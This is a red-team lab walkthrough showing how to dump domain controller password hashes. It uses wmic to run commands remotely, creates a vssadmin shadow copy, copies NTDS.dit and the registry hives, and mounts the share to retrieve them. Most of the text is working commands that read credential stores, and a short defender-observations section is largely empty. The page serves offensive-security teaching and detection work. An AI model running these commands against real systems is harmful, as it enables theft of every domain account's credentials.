


# Dumping Domain Controller Hashes via wmic and Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:


```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```



Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:


```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```


Below shows the above command executed on the attacking machine \(right\) and the files being dumped to c:\temp on the DC01 on the left:


Mount the DC01\c$\temp locally in order to retrieve the dumped files:


```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```



Now, of you go extracting hashes with secretsdump as shown here:



## Observations

A quick note for defenders on the proces ancestry:



and of course commandlines:



as well as service states:


...and of course the lateral movement piece:


## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)

